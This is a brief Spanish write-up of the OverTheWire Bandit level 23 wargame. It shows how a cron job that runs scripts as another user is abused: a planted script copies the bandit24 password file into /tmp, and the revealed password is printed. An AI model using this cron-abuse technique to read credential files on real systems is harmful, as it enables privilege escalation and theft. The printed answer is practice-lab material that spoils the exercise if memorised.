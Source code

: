 # Abusando de tareas Cron \[Bandit23]

Sacar la password de bandit24, fijandonos en las tareas crontab /etc/cron.d

```
// Vemos que cronjob_bandit24 ejecuta un script
// Vamos a entender que hace el script /usr/bin/cronjob_bandit24.sh

// Tenemos que crear un script para que se ejecute en /var/spool/bandit24/foo/ y nos saque la contraseña

bandit23@bandit:/tmp/tmp.NDuiU1H1UF$ cat script.sh 
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.NDuiU1H1UF/bandit24_pass.log

cat bandit24_pass.log 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

